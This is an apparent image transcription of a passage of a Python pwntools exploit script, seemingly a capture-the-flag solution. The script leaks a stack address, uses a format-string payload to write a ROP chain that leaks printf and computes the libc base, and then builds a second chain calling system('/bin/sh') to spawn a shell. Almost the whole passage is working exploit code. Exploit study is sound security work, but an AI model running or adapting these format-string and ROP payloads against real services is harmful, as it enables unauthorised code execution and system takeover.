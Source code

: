 ```python
  remainders.append(get_remainder(prime))

# solve for the address mod 101*103*107*109*113*127
res = crt(primes, remainders) 

# find likely stack address
buf_addr = [res[0]+res[1]*n for n in range(1, 1000) if hex(res[0]+res[1]*n)[0:4]=="0x7f" and len(hex(res[0]+res[1]*n))==14][0]

log.info("Stack leak: " + hex(buf_addr))
conn.recvline()

# assemble our first ropchain
writes_l = [
  rop.find_gadget(["ret"])[0], # stack alignment
  rop.find_gadget(["pop rdi", "ret"])[0],
  elf.got["printf"],
  elf.symbols["printf"],
  rop.find_gadget(["ret"])[0], # stack alignment
  elf.symbols["main"],
]

writes = {}

# format it in a way that pwntools understands, also get the offsets right
for n, addr in enumerate(writes_l):
  writes[buf_addr+540+n*8] = addr

payload = fmtstr_payload(8, writes)

# send our payload and recieve our leaks
conn.sendline(payload)
printf = u64(conn.recvuntil("Welcome")[-13:-7] + b"\x00\x00")
log.info("printf(): " + hex(printf))
libc.address = printf - libc.symbols["printf"]
log.info("libc base: " + hex(libc.address))

# do it all over again
remainders = []
for prime in primes:
  remainders.append(get_remainder(prime))

res = crt(primes, remainders)

buf2_addr = [res[0]+res[1]*n for n in range(1, 1000) if hex(res[0]+res[1]*n)[0:4]=="0x7f" and len(hex(res[0]+res[1]*n))==14][0]
log.info("Second stack leak: " + hex(buf2_addr))
conn.recvline()

# system("/bin/sh")
writes_l = [
  rop.find_gadget(["ret"])[0], # stack alignment
  rop.find_gadget(["pop rdi", "ret"])[0],
  next(libc.search(b"/bin/sh")),
  libc.symbols["system"]
]

writes = {}

for n, addr in enumerate(writes_l):
  writes[buf2_addr+540+n*8] = addr

print(len(payload))
```